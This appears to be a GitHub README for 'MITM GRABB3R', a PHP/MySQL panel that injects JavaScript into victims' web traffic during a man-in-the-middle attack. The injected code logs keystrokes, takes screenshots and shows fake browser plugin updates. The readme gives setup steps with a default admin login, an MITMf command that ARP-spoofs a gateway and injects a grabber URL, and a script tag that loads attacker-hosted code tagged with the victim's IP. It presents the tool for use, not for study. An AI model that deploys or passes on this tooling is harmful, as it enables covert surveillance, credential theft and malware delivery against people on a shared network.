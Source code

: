 
![version](https://img.shields.io/badge/version-1.0-blue.svg)

**MITM GRABB3R** is a PHP (MySQL) script that uses Javascript code to do various XSS "attacks" after you inject it via mitm attack.

INFO
===

This script can capture keystrokes of user input on websites, capture screenshots of pages and run fake browser plugin update.

Each clients history and captures can be viewed on a timeline.

!["DEMO"](https://raw.githubusercontent.com/ivangr0zni/mitm-grabb3r/master/demo.png)

HOW TO SET SCRIPT
===

Create and import database.sql in MySQL 

Upload php script from www to folder on your http server.

Edit

	/includes/settings.ini.php
	/includes/config.ini.php
	
Make sure /capture/scr/ is writable folder.
	
Default web login is:

	Username:admin
	Password:1234
	
HOW TO: MITMf
===

Replace inject.py in plugins folder ( MITMf 0.9.8 ) with inject.py that contains small changes.


Example cmd:

	python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --inject --grabber-url http://192.168.1.5/mitm/inject.php


Use other MITM software?
===

This script was tested on and used with MITMf but should be able to use it without any issues with other software.

If you make plugin for other software contact me and i will add plugin for it.

You need to inject code bellow into every page and then wait for data in panel.

	<script type="text/javascript" src="http://IP_OR_DOMAIN_AND_SCRIPT_PATH/inject.php?ip=IP_ADDRESS_OF_VICTIM"></script>

	
	
Contact
===

Twitter: @ivangr0zni